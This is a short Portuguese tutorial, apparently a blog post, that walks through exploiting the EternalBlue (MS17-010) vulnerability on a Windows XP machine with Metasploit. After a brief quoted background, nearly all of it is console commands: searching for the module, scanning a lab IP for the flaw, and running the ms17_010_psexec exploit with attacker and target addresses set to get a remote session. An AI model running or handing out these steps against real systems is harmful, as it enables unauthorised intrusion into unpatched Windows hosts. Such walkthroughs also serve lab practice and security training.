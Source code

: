 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
search eternalblue
```

or

```ruby
msfconsole
search ms17-010
```

---

- Agora temos que ter o 'host' do alvo, para verificarmos se o alvo é um target Windows XP e se está vulnerável. Nesse caso o host é : _10.10.1.4_


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Explorando o host que identificamos que esta vulneravel


```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4

set LHOST 10.10.1.2

run
```